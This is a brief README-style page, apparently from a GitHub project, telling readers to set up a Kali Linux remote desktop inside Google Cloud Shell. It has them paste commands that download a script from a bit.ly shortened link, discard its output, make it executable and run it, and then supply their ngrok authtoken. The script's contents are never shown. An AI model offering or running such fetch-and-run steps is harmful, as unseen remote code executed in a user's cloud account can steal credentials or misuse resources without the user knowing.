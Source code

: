 Kali Linux RDP
Open Google Cloud Console And Then Activate The Cloud Shell.
Copy and paste the following commands!

wget -O kali.sh https://bit.ly/3DDIjic > /dev/null 2>&1
chmod +x kali.sh
./kali.sh

Go to ngrok account, collect authtoken and enjoy by pasting Linux RDP.
